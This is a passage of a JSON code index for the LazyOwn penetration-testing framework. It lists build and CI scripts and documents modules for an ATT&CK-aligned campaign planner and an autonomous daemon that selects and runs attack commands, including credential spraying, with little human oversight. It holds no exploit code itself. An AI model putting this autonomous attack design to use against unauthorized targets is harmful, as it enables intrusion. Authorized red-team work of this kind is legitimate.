then restore the placeholders.", "kind": "function", "line": 96, "name": "rewrite_globals", "signature": "def rewrite_globals(method_source)"}, {"doc": "Return the source text of a migrated ``CommandSet`` module.\n\nKept as a pure function so the emitted ``__all__`` and the class name stay\nin lockstep and can be unit-tested. A prior inline version emitted the\nliteral ``__all__ = [f\"{phase.title()}CommandSet\"]`` -- an f-string written\nverbatim into the output, where ``phase`` is undefined at module scope, so\nevery generated module raised ``NameError`` on import and silently aborted\n:func:`cli.registry.iter_command_sets` discovery.\n\nArgs:\n    phase: Phase slug (for example ``recon``) driving the class name.\n    category: cmd2 ``@with_category`` value the methods belong to.\n    methods: ``(name, source)`` pairs already rewritten for ``self.params``.\n\nReturns:\n    The complete module source, ending with a static ``__all__`` list that\n    names the single generated ``*CommandSet`` class.", "kind": "function", "line": 124, "name": "build_migrated_module", "signature": "def build_migrated_module(phase, category, methods)"}, {"kind": "function", "line": 173, "name": "main", "signature": "def main()"}]}, {"doc": "Mutation gate for LazyOwn.  The gate runs the curated mutation runners under tests/. Each runner mutates one production module and asserts the matching test suite kills the mutant. A surviving mutant means the suite does not cover the behaviour, and the gate fails so the gap is closed before the change lands.  Modes: scripts/mutate.sh                    scoped to source files changed vs HEAD scripts/mutate.sh --all              every curated runner scripts/mutate.sh --list             print the available runners scripts/mutate.sh FILE [FILE ...]    runners that reference the given files  Environment: PYTHON             interpreter for the runners (default: env/bin/python3) MUTATION_TIMEOUT   per runner timeout in seconds (default: 1800)", "id": "scripts/mutate.sh", "kind": "module", "label": "mutate.sh", "language": "sh", "sha256": "9caddde20de40ffc", "symbol_count": 3, "symbols": [{"kind": "function", "line": 29, "name": "runners"}, {"kind": "function", "line": 33, "name": "changed_sources"}, {"kind": "function", "line": 40, "name": "usage"}]}, {"doc": "Patch APT playbooks: replace placeholder atomic_ids with real technique_ids.  This ensures do_atomic_gen can find real Atomic Red Team tests via the MITRE technique ID fallback.", "id": "scripts/patch_playbook_atomic_ids.py", "kind": "module", "label": "patch_playbook_atomic_ids.py", "language": "py", "sha256": "3486f8d0a431023a", "symbol_count": 0, "symbols": []}, {"doc": "Publish LazyOwn documentation to the GitHub wiki.  The wiki is a separate git repository (https://github.com/grisuno/LazyOwn.wiki.git). This script clones it (or pulls latest), regenerates pages from the documentation that already exists in this repository, commits, and pushes.  Usage: bash scripts/publish_wiki.sh [--dry-run] [--no-push] [--wiki-dir <path>]  --dry-run        Generate pages locally without committing or pushing. --no-push        Commit locally but do not push to GitHub. --wiki-dir <p>   Directory for the wiki checkout (default: /tmp/lazyown-wiki).  Idempotent: re-running it refreshes every page from current sources.", "id": "scripts/publish_wiki.sh", "kind": "module", "label": "publish_wiki.sh", "language": "sh", "sha256": "92624890ed73a71e", "symbol_count": 8, "symbols": [{"kind": "function", "line": 37, "name": "log"}, {"kind": "function", "line": 38, "name": "fail"}, {"kind": "function", "line": 58, "name": "write_home"}, {"kind": "function", "line": 92, "name": "write_installation"}, {"kind": "function", "line": 150, "name": "write_c2_api"}, {"kind": "function", "line": 174, "name": "write_plugins"}, {"kind": "function", "line": 188, "name": "write_sidebar"}, {"kind": "function", "line": 207, "name": "write_footer"}]}, {"doc": "Print the recent engineering journal before a change is written.  This is the read half of the read-before-you-write loop. Run it at the start of a unit of work, then cite the entry number in the change. The ``read-before-write`` workflow rejects a pull request whose body does not cite a journal entry.", "id": "scripts/read_journal.py", "kind": "module", "label": "read_journal.py", "language": "py", "sha256": "98eb2e8322df7d72", "symbol_count": 2, "symbols": [{"doc": "Build the command line parser.", "kind": "function", "line": 19, "name": "_build_parser", "signature": "def _build_parser()"}, {"doc": "Print the recent journal entries and return the process exit code.\n\nArgs:\n    argv: Optional argument vector. Defaults to ``sys.argv``.\nReturns:\n    0 on success, 1 when the journal cannot be read.", "kind": "function", "line": 29, "name": "main", "signature": "def main(argv)"}]}, {"doc": "setup_hermes_mcp.sh — register LazyOwn MCP server in Hermes Agent config Usage: bash scripts/setup_hermes_mcp.sh [--check] --check    verify registration without writing", "id": "scripts/setup_hermes_mcp.sh", "kind": "module", "label": "setup_hermes_mcp.sh", "language": "sh", "sha256": "8f8eb132f60d3a43", "symbol_count": 0, "symbols": []}, {"doc": "Smoke test for the 5-minute onboarding path.", "id": "scripts/smoke_onboarding.sh", "kind": "module", "label": "smoke_onboarding.sh", "language": "sh", "sha256": "7691ea80dfd2551c", "symbol_count": 1, "symbols": [{"kind": "function", "line": 8, "name": "check"}]}, {"doc": "Sync documentation numbers with the live codebase — single source of truth.  Counts are measured from the code itself and rewritten into the docs so the README, guides and agent context never contradict each other again:  - ``cli_commands``   — ``do_`` methods in lazyown.py + cli/commands/*.py (AST) - ``bridge_catalog`` — ``CatalogEntry(`` rows in modules/lazyown_bridge.py - ``mcp_tools``      — ``name=\"lazyown_`` registrations in skills/lazyown_mcp.py - ``aliases``        — keys in cli/aliases.yaml - ``addons``         — lazyaddons/*.yaml - ``plugins``        — plugins/*.lua - ``plugin_files``   — every file in plugins/ - ``tools``          — tools/*.tool - ``playbooks``      — playbooks/*.yaml - ``version``        — ``version =`` in pyproject.toml  Usage: python3 scripts/sync_doc_stats.py           apply the replacements in place python3 scripts/sync_doc_stats.py --check   exit 1 when any doc is stale (CI) python3 scripts/sync_doc_stats.py --print   show the measured numbers only", "id": "scripts/sync_doc_stats.py", "kind": "module", "label": "sync_doc_stats.py", "language": "py", "sha256": "65c3e5996a636c94", "symbol_count": 6, "symbols": [{"doc": "Read the canonical command count from the committed command index.\n\nThe command index (``cli/command_index.json``) is the single source of\ntruth produced by ``scripts/build_command_index.py``. Re-counting the\nAST here would reintroduce a second counting method and cause the same\ndrift this module exists to eliminate.", "kind": "function", "line": 87, "name": "canonical_command_count", "signature": "def canonical_command_count(root)"}, {"doc": "Read the package version from pyproject.toml, ``0.0.0`` when absent.", "kind": "function", "line": 100, "name": "project_version", "signature": "def project_version(root)"}, {"doc": "Measure every published count from the live tree.\n\nArgs:\n    root: Repository root. Injectable so tests can point at a fixture.", "kind": "function", "line": 109, "name": "measure_stats", "signature": "def measure_stats(root)"}, {"doc": "Format one replacement template with the measured stats.", "kind": "function", "line": 136, "name": "render", "signature": "def render(template, stats)"}, {"doc": "Apply or verify every replacement; return the list of stale spots.\n\nArgs:\n    check: When ``True`` verify without writing, returning stale spots.\n    stats: Measured counts produced by :func:`measure_stats`.\n    root: Repository root. Injectable so tests can point at a fixture.", "kind": "function", "line": 141, "name": "sync", "signature": "def sync(check, stats, root)"}, {"doc": "CLI entry point.", "kind": "function", "line": 165, "name": "main", "signature": "def main()"}]}, {"doc": "Behavior-driven (BDD) suite gate for LazyOwn.  Every BDD scenario lives in a pytest module whose tests state the Given, When, Then contract in the docstring. This gate runs those modules, scoped to the files a change touched so the loop stays fast, with an --all mode for the full run at the end of a work unit.  Modes: scripts/test_bdd.sh                 changed BDD modules vs HEAD scripts/test_bdd.sh --all           every test module that declares BDD scripts/test_bdd.sh --list          print the BDD modules scripts/test_bdd.sh FILE [FILE ...] explicit test files  Environment: PYTHON        interpreter for pytest (default: env/bin/python3) PYTEST_ARGS   extra pytest arguments TIMEOUT       suite timeout in seconds (default: 3600) FAIL_FAST     when 1, stop at the first failing test", "id": "scripts/test_bdd.sh", "kind": "module", "label": "test_bdd.sh", "language": "sh", "sha256": "e10893b76fdc0504", "symbol_count": 2, "symbols": [{"kind": "function", "line": 33, "name": "bdd_modules"}, {"kind": "function", "line": 37, "name": "changed_tests"}]}, {"doc": "Top-tier hygiene audit for LazyOwn.  Fails (exit 1) on any credibility blocker: - version drift between README / pyproject.toml / version.json - doc claims (command / MCP / addon counts) out of sync with repo reality - secrets or session artefacts tracked by git - missing release-hygiene inputs (requirements, SBOM source)  Usage: python3 scripts/top_tier_check.py", "id": "scripts/top_tier_check.py", "kind": "module", "label": "top_tier_check.py", "language": "py", "sha256": "9de61a588137aa51", "symbol_count": 10, "symbols": [{"kind": "function", "line": 23, "name": "fail", "signature": "def fail(message)"}, {"kind": "function", "line": 28, "name": "ok", "signature": "def ok(message)"}, {"kind": "function", "line": 32, "name": "count_cli_commands", "signature": "def count_cli_commands()"}, {"kind": "function", "line": 43, "name": "count_mcp_tools", "signature": "def count_mcp_tools()"}, {"kind": "function", "line": 48, "name": "count_addons", "signature": "def count_addons()"}, {"kind": "function", "line": 52, "name": "check_versions", "signature": "def check_versions()"}, {"kind": "function", "line": 70, "name": "check_doc_counts", "signature": "def check_doc_counts(commands, mcp, addons)"}, {"kind": "function", "line": 81, "name": "check_tracked_secrets", "signature": "def check_tracked_secrets()"}, {"kind": "function", "line": 108, "name": "check_release_inputs", "signature": "def check_release_inputs()"}, {"kind": "function", "line": 116, "name": "main", "signature": "def main()"}]}, {"doc": "Update APT playbooks with real Atomic Red Team test IDs.  Scans the Atomic Red Team repository (already cloned by the user) and maps MITRE technique IDs to actual ``auto_generated_guid`` values, then patches ``playbooks/apt_*.yaml`` in place.  Usage::  python3 scripts/update_apt_atomic_ids.py [path/to/atomic-red-team/atomics]  If no path is given it defaults to ``external/.exploit/atomic-red-team/atomics``.", "id": "scripts/update_apt_atomic_ids.py", "kind": "module", "label": "update_apt_atomic_ids.py", "language": "py", "sha256": "35d4ed0fc648e816", "symbol_count": 2, "symbols": [{"doc": "Map technique_id -> list of {atomic_id, name, description}.", "kind": "function", "line": 22, "name": "build_technique_index", "signature": "def build_technique_index(atomics_path)"}, {"kind": "function", "line": 46, "name": "update_playbooks", "signature": "def update_playbooks(index, playbook_dir)"}]}, {"doc": "validate_agent_contract.sh  CI validation of the AGENTS.md branching model and coding standards. Called by .github/workflows/agent-contract.yml on every push/PR to dev.  Checks: 1. Branch name matches allowed patterns (dev, main, pp, feature/*, hotfix/*). 2. No commits from dev directly target main (PRs only). 3. No secrets or credentials committed (baseline check). 4. No Spanish strings in code files (enforce English-only rule). 5. No hardcoded IPs/paths/creds outside payload.json.", "id": "scripts/validate_agent_contract.sh", "kind": "module", "label": "validate_agent_contract.sh", "language": "sh", "sha256": "95df1ded48ea83d7", "symbol_count": 5, "symbols": [{"kind": "function", "line": 23, "name": "pass"}, {"kind": "function", "line": 27, "name": "fail"}, {"kind": "function", "line": 32, "name": "check"}, {"doc": "-- No hardcoded credentials outside payload.json --- Pentest help-text, doc placeholders (<...>), template vars ({{ ... }}), shell arg plumbing ($1/$2/${...}), key-name constants and test fixtures are not committed secrets. Implemented as a function to avoid eval quoting pitfalls with nested quote classes.", "kind": "function", "line": 59, "name": "check_no_hardcoded_passwords"}, {"doc": "-- No hardcoded wordlist paths outside payload.json --- Help-text examples, docstrings and filesystem hints are allowed; only real default assignments outside payload.json are violations.", "kind": "function", "line": 74, "name": "check_no_hardcoded_wordlists"}]}, {"doc": "Compatibility shim for legacy ``python setup.py`` invocations.  All project metadata and dependencies are declared in ``pyproject.toml`` under ``[project]`` and are the single source of truth. Modern setuptools reads them from there, so this file intentionally carries no duplicated package list; it exists only so tooling that still shells out to ``setup.py`` keeps working.", "id": "setup.py", "kind": "module", "label": "setup.py", "language": "py", "sha256": "9b546ab490841195", "symbol_count": 0, "symbols": []}, {"doc": "Autonomous Campaign Intelligence (ACI) Planner =============================================== Decomposes a natural-language engagement goal into a MITRE ATT&CK-aligned tactical plan, injects each phase as objectives into the ObjectiveStore, monitors execution, and replans when too many objectives are blocked.  Architecture (SOLID) -------------------- - ACIGoal          dataclass — immutable goal descriptor - AttackPhase      dataclass — one tactical phase with ATT&CK metadata - ACIPlan          dataclass — full mutable plan persisted to sessions/ - ACIPlanner       — decomposes goals (LLM-backed with static fallback) - ACIEngine        — monitors plan state, decides when to replan - ACIReflector     — generates campaign_lessons from plan outcomes - mcp_aci_plan     — MCP bridge: plan a goal - mcp_aci_status   — MCP bridge: live plan status - mcp_aci_replan   — MCP bridge: force adaptive replan  Persistence ----------- sessions/aci_plan.json   — current active plan (one plan at a time) sessions/aci_history.jsonl — archived completed/abandoned plans sessions/campaign_lessons.jsonl — lessons appended by ACIReflector  Usage (CLI) ----------- python3 skills/aci_planner.py plan  \"Compromise the DC at corp.internal\" --target 10.10.11.5 python3 skills/aci_planner.py status", "id": "skills/aci_planner.py", "kind": "module", "label": "aci_planner.py", "language": "py", "sha256": "843b052353e4cb0d", "symbol_count": 42, "symbols": [{"doc": "Immutable descriptor for a natural-language engagement goal.", "kind": "class", "line": 146, "name": "ACIGoal", "signature": "class ACIGoal"}, {"doc": "One tactical phase inside an ACIPlan.", "kind": "class", "line": 157, "name": "AttackPhase", "signature": "class AttackPhase"}, {"doc": "Full tactical plan for one engagement goal.", "kind": "class", "line": 182, "name": "ACIPlan", "signature": "class ACIPlan"}, {"kind": "function", "line": 231, "name": "_now_iso", "signature": "def _now_iso()"}, {"doc": "Atomically write plan to aci_plan.json.", "kind": "function", "line": 235, "name": "_save_plan", "signature": "def _save_plan(plan, plan_file)"}, {"doc": "Load active plan from aci_plan.json, return None if absent/corrupt.", "kind": "function", "line": 245, "name": "_load_plan", "signature": "def _load_plan(plan_file)"}, {"doc": "Append plan to aci_history.jsonl.", "kind": "function", "line": 258, "name": "_archive_plan", "signature": "def _archive_plan(plan, history_file)"}, {"doc": "Read payload.json for api_key, target context.", "kind": "function", "line": 267, "name": "_load_payload", "signature": "def _load_payload()"}, {"doc": "Read sessions/world_model.json for live engagement context.", "kind": "function", "line": 276, "name": "_load_world_model", "signature": "def _load_world_model()"}, {"doc": "Count objectives in a list by their current status.", "kind": "function", "line": 285, "name": "_count_objectives_by_status", "signature": "def _count_objectives_by_status(obj_ids, objectives_file)"}, {"doc": "Call Groq to decompose goal into phases. Returns raw phase dicts or None.", "kind": "function", "line": 335, "name": "_llm_decompose", "signature": "def _llm_decompose(goal, api_key)"}, {"doc": "Call Groq to generate replacement objectives for remaining phases.", "kind": "function", "line": 400, "name": "_llm_replan", "signature": "def _llm_replan(plan, reason, api_key)"}, {"doc": "Decomposes a high-level engagement goal into an ACIPlan.\n\nUses the Groq LLM when an api_key is available; falls back to\nthe static MITRE kill-chain template otherwise.\n\nArgs:\n    api_key: Groq API key. If empty, static fallback is used.\n    objectives_file: Path override for ObjectiveStore (tests).\n    plan_file: Path override for ACI plan JSON (tests).", "kind": "class", "line": 449, "name": "ACIPlanner", "signature": "class ACIPlanner"}, {"doc": "Monitors ACIPlan execution and triggers replanning when stalled.\n\nArgs:\n    api_key: Groq API key for LLM-backed replan.\n    plan_file: Path override (tests).\n    objectives_file: Path override (tests).\n    history_file: Path override (tests).\n    replan_threshold: Blocked-objective count that triggers replan.", "kind": "class", "line": 593, "name": "ACIEngine", "signature": "class ACIEngine"}, {"doc": "Generates campaign lessons from completed or replanned ACIPlan outcomes.\n\nLessons are appended to sessions/campaign_lessons.jsonl in the same\nformat used by EpisodeReflectionEngine in lazyown_campaign.py.\n\nArgs:\n    lessons_file: Path override (tests).", "kind": "class", "line": 787, "name": "ACIReflector", "signature": "class ACIReflector"}, {"doc": "Plan an engagement goal and return a JSON summary.\n\nArgs:\n    goal: Natural-language engagement goal.\n    target: Primary target IP or hostname.\n    scope: List of CIDR ranges or IPs in scope.\n    domain: Target domain (optional).\n    os_hint: Target OS hint: 'linux', 'windows', or 'unknown'.\n    phase_filter: Only include these phase slugs (e.g. ['recon','exploit']).\n\nReturns:\n    JSON string with plan summary.", "kind": "function", "line": 865, "name": "mcp_aci_plan", "signature": "def mcp_aci_plan(goal, target, scope, domain, os_hint, phase_filter)"}, {"doc": "Return live status of the active ACI plan as JSON.\n\nReturns:\n    JSON string with plan status, phase breakdown, and replan recommendation.", "kind": "function", "line": 923, "name": "mcp_aci_status", "signature": "def mcp_aci_status()"}, {"doc": "Force adaptive replanning of the active ACI plan.\n\nArgs:\n    reason: Why replanning is needed (e.g. 'Kerberoasting blocked').\n\nReturns:\n    JSON string with replan result summary.", "kind": "function", "line": 940, "name": "mcp_aci_replan", "signature": "def mcp_aci_replan(reason)"}, {"kind": "function", "line": 978, "name": "_build_parser", "signature": "def _build_parser()"}, {"doc": "Entry point for CLI usage.", "kind": "function", "line": 1003, "name": "main", "signature": "def main(argv)"}, {"doc": "Serialize to dict for JSON persistence.", "kind": "method", "line": 171, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Deserialize from dict.", "kind": "method", "line": 176, "name": "from_dict", "signature": "def from_dict(cls, d)"}, {"doc": "Return the first phase that is active or pending.", "kind": "method", "line": 199, "name": "active_phase", "signature": "def active_phase(self)"}, {"doc": "Percentage of phases that are done or skipped.", "kind": "method", "line": 207, "name": "completion_pct", "signature": "def completion_pct(self)"}, {"doc": "Serialize to dict for JSON persistence.", "kind": "method", "line": 214, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Deserialize from dict.", "kind": "method", "line": 221, "name": "from_dict", "signature": "def from_dict(cls, d)"}, {"kind": "method", "line": 461, "name": "__init__", "signature": "def __init__(self, api_key, objectives_file, plan_file)"}, {"doc": "Decompose *goal* into an ACIPlan, inject objectives, persist.\n\nArgs:\n    goal: ACIGoal descriptor.\n    phase_filter: If provided, only include these phase slugs.\n\nReturns:\n    A new ACIPlan with status 'active'.", "kind": "method", "line": 471, "name": "plan", "signature": "def plan(self, goal, phase_filter)"}, {"kind": "method", "line": 509, "name": "_build_phases_from_llm", "signature": "def _build_phases_from_llm(self, raw, goal, phase_filter)"}, {"kind": "method", "line": 534, "name": "_build_phases_static", "signature": "def _build_phases_static(self, goal, phase_filter)"}, {"doc": "Inject objectives for every phase into the ObjectiveStore.", "kind": "method", "line": 562, "name": "_inject_all_objectives", "signature": "def _inject_all_objectives(self, plan)"}, {"doc": "Append one objective to objectives.jsonl and return its id.", "kind": "method", "line": 571, "name": "_write_objective", "signature": "def _write_objective(self, text, phase, target)"}, {"kind": "method", "line": 604, "name": "__init__", "signature": "def __init__(self, api_key, plan_file, objectives_file, history_file, replan_threshold)"}, {"doc": "Return a structured status dict for the active plan.\n\nReturns:\n    Dict with keys: plan_id, goal, target, status, phases, completion_pct,\n    active_phase, blocked_count, replan_count, should_replan.", "kind": "method", "line": 618, "name": "status", "signature": "def status(self)"}, {"doc": "Return True when the plan is stalled and a replan is warranted.\n\nArgs:\n    plan: Pre-loaded plan (avoids re-reading disk in tight loops).", "kind": "method", "line": 658, "name": "should_replan", "signature": "def should_replan(self, plan)"}, {"doc": "Generate a new set of objectives for blocked/remaining phases.\n\nArgs:\n    reason: Human-readable explanation of why we're replanning.\n\nReturns:\n    (updated_plan, message) — plan is None if no active plan exists.", "kind": "method", "line": 671, "name": "replan", "signature": "def replan(self, reason)"}, {"doc": "Mark the active plan as completed and archive it.", "kind": "method", "line": 741, "name": "complete", "signature": "def complete(self)"}, {"doc": "Update each phase status based on current objective completion.", "kind": "method", "line": 754, "name": "_sync_phase_statuses", "signature": "def _sync_phase_statuses(self, plan)"}, {"doc": "Count total blocked objectives across all non-done phases.", "kind": "method", "line": 773, "name": "_count_blocked", "signature": "def _count_blocked(self, plan)"}, {"kind": "method", "line": 797, "name": "__init__", "signature": "def __init__(self, lessons_file)"}, {"doc": "Analyse *plan* and generate lessons.\n\nArgs:\n    plan: A completed or replanned ACIPlan.\n\nReturns:\n    List of lesson dicts appended to campaign_lessons.jsonl.", "kind": "method", "line": 800, "name": "reflect", "signature": "def reflect(self, plan)"}, {"doc": "Append lessons to campaign_lessons.jsonl.", "kind": "method", "line": 852, "name": "_persist_lessons", "signature": "def _persist_lessons(self, lessons)"}]}, {"doc": "skills/autonomous_daemon.py — LazyOwn Autonomous Execution Daemon ================================================================== Bridges LazyOwn (Claude-assisted orchestrator) and a fully autonomous OpenClaw/OpenHands-style system.  The daemon runs as an independent process and does NOT need Claude Code to operate between objectives. Claude remains the Borg Queen for injecting high-level objectives, but the daemon executes them without intervention.  Architecture (4 concurrent asyncio roles) ------------------------------------------ Role 1 — ObjectiveLoop    : Watches objectives.jsonl. When a pending objective appears, takes it, plans, executes. Role 2 — ExecutionEngine  : Per-step execution loop (equivalent to auto_loop in MCP but without MCP). Uses the same command selection cascade: reactive -> parquet -> bridge -> LLM -> fallback Role 3 — WorldModelWatcher: Watches world_model.json. When the phase changes (recon->enum->exploit...) or new hosts/credentials appear, injects derived objectives and notifies hive drones. Role 4 — DroneCoordinator : Hive-mind bridge. When recon discovers a host, launches exploit/analyze drones in parallel. When a drone finishes, writes the result to the stream and updates the objective.  Event streams (push, no polling) ----------------------------------", "id": "skills/autonomous_daemon.py", "kind": "module", "label": "autonomous_daemon.py", "language": "py", "sha256": "9baa70b760adae9f", "symbol_count": 148, "symbols": [{"kind": "function", "line": 126, "name": "_try_import", "signature": "def _try_import(module, attr)"}, {"doc": "Update the status of the first task whose title matches. Thread-safe.", "kind": "function", "line": 185, "name": "_update_task_status", "signature": "def _update_task_status(title, new_status)"}, {"doc": "Write directly to sessions/tasks.json using the C2 format (lazyc2.py).\nReturns the assigned id. Thread-safe.", "kind": "function", "line": 206, "name": "_inject_to_tasks_json", "signature": "def _inject_to_tasks_json(title, description, operator, status)"}, {"doc": "Write an event to the JSONL stream. Thread-safe.", "kind": "function", "line": 249, "name": "_emit", "signature": "def _emit(event_type, payload, severity)"}, {"doc": "Append one intent transition to the shared ledger (LAZY activity).\n\nBoth flows (engage plan and daemon objectives) write here, so\nsessions/intents.jsonl is the single queryable trace. Reuses the\nexisting _ledger_write; never raises.", "kind": "function", "line": 272, "name": "_record_intent", "signature": "def _record_intent(objective_id, step_n, command, state, reason)"}, {"doc": "Filter, render and journal a finding notification.\n\nUses the shared notifier contract for severity gating and secret\nredaction, then appends to sessions/notifications.jsonl next to the\nexisting event stream. Never raises.", "kind": "function", "line": 287, "name": "_notify_finding", "signature": "def _notify_finding(title, body, severity)"}, {"doc": "Return True when the objective text is satisfied by world state.\n\nMaps goal keywords onto terminal conditions so the loop stops on\nproof instead of running out the step budget. Never raises.", "kind": "function", "line": 312, "name": "_objective_proven", "signature": "def _objective_proven(objective_text, world_model, target, credential_found)"}, {"doc": "Return a deterministic identifier for a daemon decision.\n\nThe seed is the truncated SHA-256 of the tuple\n``(objective_id, step_n, source)``. Replay tooling uses it to verify\nthat the recorded selector chain would still produce the recorded\ncommand when fed the same objective and step counter. A mismatch on\nreplay is surfaced as a divergence, never as an abort.\n\nArgs:\n    objective_id: Stable identifier of the parent objective.\n    step_n: Zero-indexed step counter inside the objective.\n    source: Name of the selector that produced the decision.\n\nReturns:\n    Hex digest truncated to :data:`DECISION_SEED_LENGTH` characters.", "kind": "function", "line": 353, "name": "compute_decision_seed", "signature": "def compute_decision_seed(objective_id, step_n, source)"}, {"doc": "Contract for executing a LazyOwn shell command.", "kind": "class", "line": 381, "name": "ICommandRunner", "signature": "class ICommandRunner(ABC)"}, {"doc": "Wrap a command so its real output sits between marker lines.\n\nMarkers go through ``!echo`` (system shell passthrough) because the\nLazyOwn shell has no echo verb of its own.", "kind": "function", "line": 394, "name": "_with_markers", "signature": "def _with_markers(command, marker)"}, {"doc": "Extract text between marker lines; return raw output when absent.", "kind": "function", "line": 403, "name": "_strip_between_markers", "signature": "def _strip_between_markers(output, marker)"}, {"doc": "Extract the tool name via the typed ToolSet (shlex, LAZY parity).\n\nFalls back to a naive split only when the catalog is unavailable.\nNever raises.", "kind": "function", "line": 416, "name": "_daemon_tool", "signature": "def _daemon_tool(command)"}, {"doc": "Delegates to lazyown_mcp._run_lazyown_command when available.\nSingle Responsibility: MCP import + delegation only.", "kind": "class", "line": 434, "name": "MCPCommandRunner", "signature": "class MCPCommandRunner(ICommandRunner)"}, {"doc": "Full PTY-based command execution that mirrors _run_lazyown_command in the MCP\nbut has no dependency on lazyown_mcp.\nSingle Responsibility: PTY subprocess management only.", "kind": "class", "line": 453, "name": "PTYCommandRunner", "signature": "class PTYCommandRunner(ICommandRunner)"}, {"doc": "Tries each runner in order and returns the first successful result.\nFalls back to the next runner on any exception.\n\nChain of Responsibility pattern.\nOpen/Closed: add new runners without modifying this class.", "kind": "class", "line": 542, "name": "CommandRunnerChain", "signature": "class CommandRunnerChain(ICommandRunner)"}, {"doc": "Return the default CommandRunnerChain (MCP -> PTY fallback).", "kind": "function", "line": 572, "name": "_build_default_runner", "signature": "def _build_default_runner()"}, {"doc": "Execute a LazyOwn command using the default runner chain.\nPreserved as a module-level function for backward compatibility.", "kind": "function", "line": 581, "name": "_run_lazyown", "signature": "def _run_lazyown(command, timeout)"}, {"doc": "Result of a command selection.", "kind": "class", "line": 633, "name": "CommandDecision", "signature": "class CommandDecision"}, {"doc": "Contract for command selection strategies.", "kind": "class", "line": 644, "name": "ICommandSelector", "signature": "class ICommandSelector(ABC)"}, {"doc": "Returns a pending reactive engine decision if one is available.\nSingle Responsibility: reactive engine integration only.", "kind": "class", "line": 657, "name": "ReactiveSelector", "signature": "class ReactiveSelector(ICommandSelector)"}, {"doc": "Queries Parquet DB for commands that succeeded in past sessions.\nSingle Responsibility: Parquet history lookup only.", "kind": "class", "line": 703, "name": "ParquetSelector", "signature": "class ParquetSelector(ICommandSelector)"}, {"doc": "Queries the lazyown_bridge catalog for phase/service-appropriate commands.\nSingle Responsibility: bridge catalog lookup only.", "kind": "class", "line": 749, "name": "BridgeSelector", "signature": "class BridgeSelector(ICommandSelector)"}, {"doc": "Return a compact string listing available LazyOwn commands for the given phase.\nUsed to inject command context into LLM/SWAN prompts so they pick valid abstractions.", "kind": "function", "line": 799, "name": "_get_phase_command_catalog", "signature": "def _get_phase_command_catalog(phase)"}, {"doc": "Queries Groq/Ollama for a command suggestion.\nOnly active when AUTO_USE_LLM=1.\nSingle Responsibility: LLM command recommendation only.", "kind": "class", "line": 818, "name": "LLMSelector", "signature": "class LLMSelector(ICommandSelector)"}, {"doc": "SWAN (Scalable Weighted Adaptive Network) command selector.\n\nRoutes the command-recommendation query to the best MoE expert via\nQ-learning-guided routing.  Only active when AUTO_USE_SWAN=1.\n\nSingle Responsibility : MoE/RL expert routing only — no direct execution.\nOpen/Closed           : Extend SwanOrchestrator subclasses; this selector\n                        never changes to support new experts.\nDependency Inversion  : depends on ICommandSelector interface; imports\n                        swan_agent lazily so the daemon starts even without\n                        GROQ_API_KEY present.", "kind": "class", "line": 916, "name": "SWANSelector", "signature": "class SWANSelector(ICommandSelector)"}, {"doc": "Static map fallback — always returns a CommandDecision, never None.\nSelects OS-appropriate commands when the OS is known.\nSingle Responsibility: static fallback map only.", "kind": "class", "line": 986, "name": "FallbackSelector", "signature": "class FallbackSelector(ICommandSelector)"}, {"doc": "Decorator that demotes commands with a poor recent track record.\n\nWraps another :class:`ICommandSelector`. When the wrapped selector\nproposes a command whose recent ``success_rate`` in\n:class:`modules.metrics.MetricsRecorder` is below the configured\nthreshold and whose attempt count clears\n:data:`METRICS_BIAS_MIN_ATTEMPTS`, the decision is dropped (returns\n``None``) so the cascade falls through to the next selector. The\nrejection itself is logged at debug level and broadcast as a\n``METRICS_BIAS_SKIP`` event so operators can audit why the daemon\nsidestepped an otherwise valid recommendation.\n\nThe fallback selector is intentionally left unwrapped at chain\ncomposition time: when every other selector has been filtered, the\ncascade must still converge on *something*.", "kind": "class", "line": 1009, "name": "MetricsAwareSelector", "signature": "class MetricsAwareSelector(ICommandSelector)"}, {"doc": "Wrap every non-fallback selector in :class:`MetricsAwareSelector`.\n\nArgs:\n    selectors: Composed selector chain in cascade order. The last\n        selector that ``isinstance(s, FallbackSelector)`` (or the\n        very last entry as a backstop) is left unwrapped so the\n        cascade still converges when every other recommendation\n        has been filtered.\n    enabled: Master switch. When ``False`` the chain is returned\n        unchanged.\n\nReturns:\n    A new list of selectors with metrics-aware decorators applied\n    in front of every wrapped entry. The original list is not\n    mutated.", "kind": "function", "line": 1202, "name": "_wrap_chain_with_metrics_bias", "signature": "def _wrap_chain_with_metrics_bias(selectors, enabled)"}, {"doc": "When credentials exist in payload.json and open services are known,\ngenerates credential-spray commands against those services.\n\nOnly activates in exploit/lateral/privesc/cred phases.\nTracks sprayed (command, target, user) tuples to avoid repeating.\nSingle Responsibility: credential reuse selection only.", "kind": "class", "line": 1240, "name": "CredentialSpraySelector", "signature": "class CredentialSpraySelector(ICommandSelector)"}, {"doc": "Chains selectors in order and returns the first non-None result.\n\nOpen/Closed: extend by adding selectors without modifying existing ones.", "kind": "class", "line": 1296, "name": "CascadeStrategy", "signature": "class CascadeStrategy"}, {"doc": "Decides the next command for a (target, phase) pair.\n\nCascade identical to lazyown_mcp.py auto_loop:\n  1. Reactive engine (if a high-priority decision is pending)\n  2. Parquet (successful commands from previous sessions)\n  3. Bridge catalog (commands for the phase/services)\n  4. LLM (Groq/Ollama if AUTO_USE_LLM=1)\n  5. Static fallback\n\nDependency Inversion: runner and selectors are injected.", "kind": "class", "line": 1327, "name": "StrategyEngine", "signature": "class StrategyEngine"}, {"doc": "Result of a single execution step.", "kind": "class", "line": 1400, "name": "StepResult", "signature": "class StepResult"}, {"doc": "Contract for running an objective to completion.", "kind": "class", "line": 1412, "name": "IObjectiveHandler", "signature": "class IObjectiveHandler(ABC)"}, {"doc": "Implements the per-objective execution loop.\n\nSelects commands, runs them, parses output, updates world model,\nemits events. Equivalent to the former _run_objective coroutine but\nencapsulated as a class to satisfy Open/Closed (subclass to override\nstep logic without modifying this class).\n\nDependency Inversion: strategy (which wraps runner) is injected.", "kind": "class", "line": 1426, "name": "ExecutionEngine", "signature": "class ExecutionEngine(IObjectiveHandler)"}, {"doc": "Load payload.json, returning empty dict on any error.", "kind": "function", "line": 1536, "name": "_load_payload", "signature": "def _load_payload()"}, {"doc": "Return the last N command names from the session CSV log.", "kind": "function", "line": 1544, "name": "_read_recent_csv_commands", "signature": "def _read_recent_csv_commands(limit)"}, {"doc": "Load per-context command blacklist from campaign_lessons.jsonl.", "kind": "function", "line": 1565, "name": "_load_campaign_blacklist", "signature": "def _load_campaign_blacklist()"}, {"doc": "Return 